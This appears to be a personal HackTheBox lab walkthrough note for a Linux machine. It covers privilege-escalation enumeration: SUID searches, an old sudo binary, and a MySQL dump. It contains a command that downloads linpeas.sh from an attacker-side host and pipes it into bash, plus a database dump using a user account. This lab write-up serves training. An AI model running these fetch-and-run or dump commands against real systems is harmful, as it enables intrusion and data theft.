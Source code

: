 ```
wget -O - 10.10.14.2:8080/linpeas.sh | bash
```
![[HackTheBox/Linux/attachments/Pasted image 20250509220324.png]]

Reviewing some of the output 
![[HackTheBox/Linux/attachments/Pasted image 20250509220525.png]]
- whoopsie? -> standard linux thing 

Nothing very interesting..

Rechecking the SETUID files for this year

```
find / -perm -4000 -ls 2>/dev/null | grep -v 201
```

![[HackTheBox/Linux/attachments/Pasted image 20250509221155.png]]

💡in case tty gets weird and line wrappy 💡
```
stty columns 136 rows 32
```
![[HackTheBox/Linux/attachments/Pasted image 20250509221056.png]]

Notice there's an old version of sudo 

```
find / -perm -4000 -ls 2>/dev/null | grep -v 2018
```

![[HackTheBox/Linux/attachments/Pasted image 20250509221342.png]]

Check sudo version 
```
sudo --version
```

![[HackTheBox/Linux/attachments/Pasted image 20250509221413.png]]

Check md5sum of sudo SUID binary path

![[HackTheBox/Linux/attachments/Pasted image 20250509221452.png]]

Search for this md5 hash in VirusTotal to figure out when it was first seen
![[HackTheBox/Linux/attachments/Pasted image 20250509221606.png]]

![[HackTheBox/Linux/attachments/Pasted image 20250509221631.png]]
- 2017 - so this is an old binary

### Dumping MySQL database

Using mysqldump 

```
mysqldump -u theseus -p Magic
```
